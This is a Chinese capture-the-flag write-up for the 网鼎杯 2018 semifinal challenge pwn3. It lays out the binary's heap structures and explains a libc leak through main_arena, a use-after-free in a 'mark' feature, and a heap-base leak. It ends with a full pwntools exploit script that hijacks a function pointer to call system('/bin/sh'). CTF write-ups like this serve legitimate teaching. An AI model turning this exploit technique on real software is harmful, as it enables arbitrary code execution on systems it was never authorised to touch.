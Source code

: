 title: 网鼎杯半决赛pwn3
date: 2018-9-20
categories:
- PWN
---

## 主menu的chara结构体

```
00000000 chara           struc ; (sizeof=0x18, align=0x8, mappedto_7)
00000000 inuse           dq ?
00000008 name_ptr        dq ?
00000010 type            dq ?
00000018 chara           ends
```
- 其中inuse限制了不能edit和double free,程序中没有溢出点
- 虽然inuse可以不能直接读取内存,但是可以利用堆块包含来进行堆块内容的读取
- 可控堆块size的堆,只有name可以利用,然后free到name块,所以通过show来得到\<main_arena+0x88\>,即为libc的基址

## 副menu的结构体

```
00000000 note_count      dd ?
00000004 note_size       dd ?
00000008 name            db 32 dup(?)
00000028 note_content_ptr dq ?
00000030 note            ends
00000030
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 mark_           struc ; (sizeof=0x18, align=0x8, mappedto_6)
00000000 mark_count      dd ?
00000004 mark_index      dd ?
00000008 mark_conect_info dq ?
00000010 funptr          dq ?
00000018 mark_           ends
```

- 这里又实现了一个典型的记事本服务,而且还多了一项mark功能,此函数里有一根函数指针,所以这里考虑劫持函数指针
- mark是0x18,利用第三个QWORD位的函数指针来打印第二个QWORD位的堆块内容
- 并且这个mark存在UAF,我们可以free后利用note部分随意分配size的堆块,再次得到刚才的那个堆块,并直接进行覆盖
- 如果想覆盖到函数指针,必须先覆盖字符串指针,所以要想执行system("/bin/sh"),这里选择note的部分leak_heapbase
- 因为name后紧接着堆块指针,并且字符串尾部没有填0,所以可以leak
- 下面是exp

```python
from pwn import *

p = process("./pwn")
sys_libc = 0x45390
libcmain_arena = 0x3C4B20

def add(size,name):
    p.sendlineafter("Your choice : ","1")
    p.sendlineafter("Length of the name :",str(size))
    p.sendlineafter("The name of character :",name)
    p.sendlineafter("The type of the character :","mozhucy")

def show():
    p.sendlineafter("Your choice : ","2")

def free(index):
    p.sendlineafter("Your choice : ","3")
    p.sendlineafter("Which character do you want to eat:",str(index))

def serect():
    p.sendlineafter("Your choice : ","1337")

def addN(contentsize,name,content):
    p.sendlineafter("$ ","new")
    p.sendlineafter("$ note size:",str(contentsize))
    p.sendlineafter("$ note name:",name)
    p.sendlineafter("$ note content:",content)

def showN(index):
    p.sendlineafter("$ ","show")
    p.sendlineafter("$ note index:",str(index))

def delN(index):
    p.sendlineafter("$ ","delete")
    p.sendlineafter("$ note index:",str(index))

def mark(index,marks):
    p.sendlineafter("$ ","mark")
    p.sendlineafter("$ index of note you want to mark:",str(index))
    if len(marks) == 32:
        p.sendafter("$ mark info:",marks)
    else:
        p.sendlineafter("$ mark info:",marks)

def delmark(index):
    p.sendlineafter("$ ","delete_mark")
    p.sendlineafter("$ mark index:",str(index))

def showmark(index):
    p.sendlineafter("$ ","show_mark")
    p.sendlineafter("$ mark index:",str(index))

def exp():
    #leak
    add(0x80,"1"*0x80)
    add(0x80,"2"*0x80)
    free(0)
    add(0x50,"1111111")
    show()
    p.recvuntil("1111111\n")
    s = p.recv(6) + "\x00\x00"
    mainarena = u64(s)
    libcbase = mainarena - libcmain_arena - 88
    sys = sys_libc + libcbase
    print "system : 0x%x"%sys

    #attack
    serect()
    addN(0x30,"flag"*8,"a"*0x30)
    mark(0,"/bin/sh\x00")
    delmark(0)
    showmark(0)
    showN(0)
    # print p.recv()
    p.recvuntil("flagflagflagflagflagflagflagflag")
    heapbase = u64(p.recv(6)+'\x00\x00')
    print "/bin/sh : %x"%(heapbase + 0x60)
    payload = p64(0) + p64(heapbase + 0x60) + p64(sys)
    addN(0x18,"attack",payload)
    showmark(0)
    p.interactive()
    
    # showmark(0)
    # p.interactive()

if __name__ == "__main__":
    exp()
```